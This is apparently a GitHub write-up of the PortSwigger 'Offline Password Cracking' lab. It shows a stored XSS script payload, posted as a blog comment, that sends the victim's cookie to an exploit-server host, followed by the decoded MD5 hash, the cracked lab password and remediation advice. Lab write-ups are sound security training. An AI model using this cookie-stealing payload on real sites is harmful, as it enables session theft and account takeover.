



# Authentication: Offline Password Cracking

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Difficulty:** Practitioner
- **Status:** Solved
- **Tools:** Burp Suite Proxy, Burp Suite Decoder, Exploit Server, CrackStation

## Vulnerability Overview

Offline password cracking occurs when an attacker obtains password hashes and attempts to recover the original passwords without interacting with the application.

In this lab, the application stored an MD5 password hash inside a Base64-encoded `stay-logged-in` cookie. By exploiting a Stored Cross-Site Scripting (XSS) vulnerability in the blog comment functionality, it was possible to steal the victim's cookie, decode it, and crack the MD5 hash using CrackStation.

## Testing Process

1. Log in using my own account with Burp Suite running and inspect the `stay-logged-in` cookie in **Proxy → HTTP history**.
2. Decode the cookie using Burp Decoder and identify its structure as `username:MD5(password)`.
3. Identify the Stored XSS vulnerability in the blog comment functionality.
4. Copy the Exploit Server URL and submit the following payload as a blog comment, replacing the exploit server ID with my own:

```html
<script>
document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie
</script>
```

5. Open the Exploit Server access log and retrieve the victim's `stay-logged-in` cookie.
6. Decode the stolen cookie using Burp Decoder and obtain the victim's username and MD5 password hash:

```text
carlos:26323c16d5f4dabff3bb136f2460a943
```

7. Copy the MD5 hash and submit it to CrackStation to recover the original password:

```text
onceuponatime
```

8. Log in using Carlos's credentials and navigate to the **My Account** page.
9. Delete the victim's account to successfully complete the lab.

## Evidence

**### Stolen Stay-Logged-In Cookie**



**### Decoded Cookie and MD5 Hash**



**### CrackStation Password Recovery**



**### Lab Completion**


## Impact

- Allows attackers to steal persistent authentication cookies through Stored XSS.
- Exposes password hashes through insecure cookie construction.
- Weak MD5 hashing makes offline password cracking easier.
- Can result in unauthorised account access and account compromise.

## Remediation

- Implement proper output encoding and input sanitization to prevent Stored XSS.
- Set the `HttpOnly`, `Secure`, and appropriate `SameSite` attributes on authentication cookies.
- Never store password hashes or password-derived values in authentication cookies.
- Use secure password hashing algorithms such as Argon2id, bcrypt, or scrypt.
- Use cryptographically secure, unpredictable session tokens for persistent authentication.
- Implement proper session expiration and token rotation.

## References

- [PortSwigger: Offline Password Cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
- [OWASP: Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)